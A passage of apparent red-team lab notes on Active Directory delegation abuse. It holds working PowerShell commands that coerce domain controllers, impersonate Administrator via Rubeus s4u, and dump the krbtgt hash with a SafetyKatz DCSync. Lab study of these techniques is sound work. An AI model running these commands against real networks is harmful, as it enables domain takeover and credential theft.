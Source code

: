 LA  → EA (same as above, but different target on listener and different coercion source)

{% code overflow="wrap" %}
```powershell
# Start Rubeus in listener mode (as appadmin on dcorp-appsrv)
c:\users\public\loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args monitor /targetuser:mcorp-dc$ /interval:5 /nowrap

# Force coercion via the Printer Bug (as student337 on dcorp-std337)
MS-RPRN.exe \\mcorp-dc.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local

# Force coercion via MS-WSP (as student337 on dcorp-std337)
Loader.exe -path WSPCoerce.exe -args mcorp-dc.moneycorp.local dcorp-appsrv.dollarcorp.moneycorp.local

# Force coercion via MS-DFSNM (as student337 on dcorp-std337)
DFSCoerce-andrea.exe -t mcorp-dc -l dcorp-appsrv.dollarcorp.moneycorp.local
```
{% endcode %}
{% endtab %}

{% tab title="CD" %}
Constrained → impersonate specific users to specific hosts (LA → DA):

{% code overflow="wrap" %}
```powershell
# Enumerate users with CD enabled (PowerView)
Get-DomainUser -TrustedToAuth | select userprincipalname,msds-allowedtodelegateto,useraccountcontrol | Format-list

# Make the ST request impersonating the DA
Loader.exe -path Rubeus.exe -args s4u /user:websvc /aes256:<key> /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.local /ptt

# Access the target's file system as DA
dir \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```
{% endcode %}

Access non-allowed services:

{% hint style="warning" %}
Services are case-sensitive → `LDAP` not `ldap`!
{% endhint %}

{% code overflow="wrap" %}
```powershell
# Enumerate computers with CD enabled (PowerView)
Get-DomainComputer -TrustedToAuth | select samaccountname,msds-allowedtodelegateto,useraccountcontrol | Format-list

# From an elevated shell alter the service
Loader.exe -path Rubeus.exe -args s4u /user:dcorp-adminsrv$ /aes256:<key> /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.local /altservice:LDAP /ptt

# Test impersonation via a DCSync attack
Loader.exe -path SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```
{% endcode %}
{% endtab %}
